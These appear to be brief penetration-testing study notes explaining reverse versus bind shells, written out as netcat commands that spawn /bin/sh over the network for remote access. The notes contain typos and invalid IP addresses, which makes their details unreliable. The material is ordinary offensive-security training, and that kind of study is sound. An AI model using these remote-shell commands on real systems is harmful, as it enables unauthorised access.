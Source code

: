 ## Reverse versus Blind Shells
* Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
* Blind shell (we connect to a victim) - we open a port on the machine, and then we connect to it
  * Exploit opens up port, so we connect through nc 192.1682.1.2 4444
  * On victim side, nc -lvp 4444 -e /bin/sh
 * You will be using reverse shells 95% of the time. Blind shells are most likely on external assessments.
   * Externals use bind shells - NAT through public IP address to connect to that port. Reverse, you would have to open up your home network to the world.

  ## Staged versus Non-Staged Payloads
